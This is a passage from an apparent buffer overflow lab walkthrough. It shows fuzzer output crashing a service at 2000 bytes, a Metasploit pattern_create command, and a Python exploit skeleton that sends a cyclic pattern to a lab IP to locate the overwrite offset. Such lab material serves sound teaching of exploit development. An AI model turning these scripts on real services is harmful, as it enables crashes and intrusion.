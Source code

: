 Let's run it now:

```
python3 fuzzer.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzing with 1500 bytes
Fuzzing with 1600 bytes
Fuzzing with 1700 bytes
Fuzzing with 1800 bytes
Fuzzing with 1900 bytes
Fuzzing with 2000 bytes
Fuzzing crashed at 2000 bytes
```

With that value, we can now create a pattern of a higher amount of bytes than the maximum, let's do this:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2200 > pattern.txt
```

Now, we can create a `exploit.py` file:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow= ""
retn = ""
padding = ""
payload = ""
postfix = ""

# Read the pattern file:
with open("pattern.txt","r") as f:
 payload = f.read().strip()

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()
```
